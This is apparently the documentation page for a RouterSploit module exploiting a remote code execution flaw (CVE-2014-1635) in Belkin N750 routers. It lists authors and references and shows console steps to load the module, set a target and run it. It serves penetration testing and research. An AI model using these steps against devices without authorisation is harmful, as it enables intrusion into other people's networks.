 # Belkin N750 RCE

## Description
Module exploits Belkin N750 Remote Code Execution vulnerability which allows executing commands on operation system level.

## Authors
* Marco Vaz <mv[at]integrity.pt> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-1635](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-1635)
* [https://www.exploit-db.com/exploits/35184/](https://www.exploit-db.com/exploits/35184/)
* [https://labs.integrity.pt/articles/from-0-day-to-exploit-buffer-overflow-in-belkin-n750-cve-2014-1635/](https://labs.integrity.pt/articles/from-0-day-to-exploit-buffer-overflow-in-belkin-n750-cve-2014-1635/)

## Vulnerable devices
* Belkin N750

## Usage
```
rsf > use exploits/belkin/n750_rce
rsf (Belkin N750 RCE) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


rsf (Belkin N750 RCE) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Belkin N750 RCE) > run
[*] Running module...
```
